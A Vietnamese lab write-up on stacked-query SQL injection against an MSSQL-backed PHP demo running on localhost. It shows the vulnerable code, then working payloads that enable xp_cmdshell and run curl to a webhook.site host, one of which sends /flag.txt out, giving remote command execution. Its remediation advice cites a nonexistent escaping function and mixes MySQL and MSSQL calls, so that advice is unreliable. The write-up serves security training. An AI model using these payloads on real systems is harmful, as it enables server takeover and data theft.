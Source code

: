 ### Tìm hiểu về SQL Injection thông qua Stacked query, demo trên MSSQL

- Stacked Query là một kỹ thuật SQL injection trong đó người tấn công thêm một hoặc nhiều câu lệnh SQL vào sau câu lệnh SQL gốc, từ đó thực hiện nhiều hành động trong một lần thực thi.



# Link demo : https://github.com/l3mnt2010/task2_KCSC/tree/main/demo/stackQuery
# Cách khắc phục :

- Hoặc làm sạch đầu vào   $cleaned_username = sqlsrv_real_escape_string($conn, $name);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.


+ Bắt đầu vào với một giao diện như trên
![Alt text](./imageStackQuery/image.png)

- Đây là đoạn code bị dính lỗi

<?php
require_once "../config/connectMssql.php";

if (isset($_GET['name'])) {
    global $conn;
    $name = $_GET['name'];
    $tsql = "SELECT * FROM $name";

    $stmt = sqlsrv_query($conn, $tsql);
    if( $stmt === false )
    {
        echo "Lỗi truy vấn.</br>";
        die( print_r( sqlsrv_errors(), true));
    }

    if ($stmt) {
           while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) ){
            echo '
                <div class="mt-56 bg-white rounded shadow dark:bg-gray-700">
                    <div class="relative z-20 p-6 group">
                        <div class="relative block h-64 mb-4 -mt-56 overflow-hidden rounded -top-full ">
                            <img class="object-cover w-full h-full transition-all group-hover:scale-110"
                                
                                 
                      
                            <div class="absolute flex flex-col top-4 right-4">
                                <!-- Wishlist and Cart buttons here -->
                            </div>
                        </div>
                        <a href="#">
                            <h2 class="mb-2 text-xl font-bold text-black dark:text-white">
                                ' . $row['name'] . '
                            </h2>
                        </a>
                        <p class="mb-3 text-lg font-bold text-blue-500 dark:text-blue-300 ">
                            <span>$' . $row['sale'] . '.00</span>
                            <span class="text-xs font-semibold text-gray-400 line-through ">$' . $row['price'] . '.00</span>
                        </p>
                        <div class="flex gap-1 text-orange-400">
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star" viewBox="0 0 16 16">
                   <path
                       d="M2.866 14.85c-.078.444.36.791.746.593l4.39-2.256 4.389 2.256c.386.198.824-.149.746-.592l-.83-4.73 3.522-3.356c.33-.314.16-.888-.282-.95l-4.898-.696L8.465.792a.513.513 0 0 0-.927 0L5.354 5.12l-4.898.696c-.441.062-.612.636-.283.95l3.523 3.356-.83 4.73zm4.905-2.767-3.686 1.894.694-3.957a.565.565 0 0 0-.163-.505L1.71 6.745l4.052-.576a.525.525 0 0 0 .393-.288L8 2.223l1.847 3.658a.525.525 0 0 0 .393.288l4.052.575-2.906 2.77a.565.565 0 0 0-.163.506l.694 3.957-3.686-1.894a.503.503 0 0 0-.461 0z" />
               </svg>
           </div>
                    </div>
                    
                </div>
            ';
        }
    } else {
        echo '<p class="font-bold text-center mt-48 text-xl">Invalid name or your hack me!!!</p>';
    }
    sqlsrv_free_stmt( $stmt);
    sqlsrv_close( $conn);
}
?>



<?php


//     $tsql = "SELECT sale FROM items; WAITFOR DELAY '0:0:10'";
    
//     $stmt = sqlsrv_query($conn, $tsql);
//     if( $stmt === false )
//     {
//         echo "Lỗi truy vấn.</br>";
//         die( print_r( sqlsrv_errors(), true));
//     }

//     $rows = [];
//     while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) )
//     {
//         $rows[] = $row;
//     }
//     print_r($rows);

//     sqlsrv_free_stmt( $stmt);
//     sqlsrv_close( $conn);
?>

- Có vẻ như là trang web này lấy giá trị param name và cho vào trong câu truy vấn
                                        $tsql = "SELECT * FROM $name";
- Bởi vì được truyền trực tiếp nên em có thể đoán là bị dính lỗi sql injection
- Em sẽ khai thác theo hướng thực thi shell trong MSSQL đây là một dạng stack query
- Vào trong burpsuite và chọn request bị dính lỗi như sau:
![Alt text](./imageStackQuery/image-1.png)

- Em thử thêm dấu ';' vào đằng sau và request vẫn thực hiện bình thường
![Alt text](./imageStackQuery/image-2.png)
- Sau đó em dùng payload "; WAITFOR DELAY '0:0:5'; -- "
- Em nhận lại được response sau 5s
![Alt text](./imageStackQuery/image-3.png)
- Điều này chứng tỏ là em có thể thực hiện chồng query ở trong trường hợp này
- Em muốn thực hiện được xp_cmdshell trong truy vấn để lấy dữ liệu
+ Ban đầu em sẽ phải cài đặt lại setting để có thể thực hiện shell

em tham khảo bài viết này:  https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
Và dùng payload :  ";EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE; WAITFOR DELAY '0:0:5'; --"

- Và em nhận được kết quả sau 5s  chứng tỏ là đã reconfig thành công
![Alt text](./imageStackQuery/image-4.png)

- Tiếp sau đó em thực thi shell curl đến webhook của em

 http://localhost/task2_KCSC/demo/stackQuery/index.php?name=items;EXEC%20xp_cmdshell%20%27curl+https://webhook.site/0e0a8778-5ef0-4657-8aec-84076f5a552e;%20WAITFOR%20DELAY%20%270:0:5%27;%20--%20%22

Và vào webhook em nhận được
![Alt text](./imageStackQuery/image-5.png)

Em dùng payload này để lấy thông tin file flag.txt
;EXEC%20xp_cmdshell%20%27curl+-X+POST+--data+"@/flag.txt"+-H+"Content-Type:+application/data"+https://webhook.site/0e0a8778-5ef0-4657-8aec-84076f5a552e%27;%20WAITFOR%20DELAY%20%270:0:5%27;%20--%20%22
![Alt text](./imageStackQuery/image-6.png)
Và kết quả:
![Alt text](./imageStackQuery/image-7.png)
Và em nhận được thông tin vậy là em đã RCE được sever @@
